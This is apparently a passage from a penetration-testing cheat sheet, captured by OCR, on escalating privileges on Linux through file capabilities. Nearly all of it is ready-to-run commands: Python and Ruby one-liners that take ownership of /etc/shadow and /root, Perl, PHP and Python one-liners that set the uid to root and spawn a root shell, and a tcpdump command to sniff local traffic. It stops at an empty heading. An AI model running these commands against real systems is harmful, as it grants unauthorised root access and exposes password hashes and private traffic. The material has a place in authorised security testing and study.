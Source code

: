 <br />

## Capabilities

To find files that are set capabilities.

```sh
getcap -r / 2>/dev/null
```

### cap_chown

First we need to check the current user id by executing 'id' command.

```bash
id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Then execute the following command to modify the file owner to the current user.  
Replace the attribute numbers with the current user id.

```bash
# Python
python -c 'import os;os.chown("/etc/shadow",33,33)'

# Ruby
ruby -e 'require "fileutils"; FileUtils.chown(33, 33, "/etc/shadow")'
# directories also can be modified.
ruby -e 'require "fileutils"; FileUtils.chown(33, 33, "/root")'
```

### cap_setuid

```bash
# Perl
perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'

# PHP
php -r "posix_setuid(0); system('$CMD');"

# Python
python -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

### cap_net_raw

```bash
# Tcpdump - we can sniff sensitive information by running tcpdump for a while.
tcpdump -i lo -A
```

### cap_dac_read_search
